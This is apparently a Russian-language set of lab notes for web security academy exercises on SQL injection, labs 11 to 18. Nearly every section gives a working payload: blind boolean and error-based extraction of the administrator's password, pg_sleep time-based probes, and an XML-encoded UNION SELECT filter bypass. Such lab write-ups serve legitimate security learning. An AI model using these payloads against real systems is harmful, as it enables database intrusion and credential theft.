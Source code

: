 ## 11. Lab: Blind SQL injection with conditional responses

Ужасно долго пытался писать скрипт для перебора на питоне, написал, лежит в lab_11.py

Условие выглядело так:
```
cookies['TrackingId'] = f"ry6OMfqiyJL4qIfd'+AND+(SELECT+SUBSTRING(password,{i+1},1)
+FROM+users+WHERE+username='administrator')='{al}"
```

## 12. Lab: Blind SQL injection with conditional errors

Тут примерно так же, но отслеживать надо ошибки 500 при делении на ноль если кейс выполняется

```
'||(SELECT+CASE+WHEN+SUBSTR(password,{i+1},1)='{al}'+THEN+TO_CHAR(1/0)+ELSE+''+END
+FROM+users+WHERE+username='administrator')||'
```

## 13. Lab: Visible error-based SQL injection

Так как мы видим ошибки, то можно попытаться покастовать строку в число :)

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

## 14. Lab: Blind SQL injection with time delays

Дал поспать

```
||pg_sleep(10)--
```

## 15. Lab: Blind SQL injection with time delays and information retrieval

Тут уже тоже скрипт с перебором (lab_15.py)

```
';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{i+1},1)='{al}')
+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

## 16 и 17 скип - Burp Collaborator нужен

## 18. Lab: SQL injection with filter bypass via XML encoding

Прикольно можно научиться пользоваться Hackvertor.

По итогу банальное sql injection, надо только обойти ограничения при помощи плагина

```
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            2
        </productId>
        <storeId>
            <@dec_entities>
                2 UNION SELECT username||'~'||password FROM users
            </@dec_entities>
        </storeId>
    </stockCheck>
```
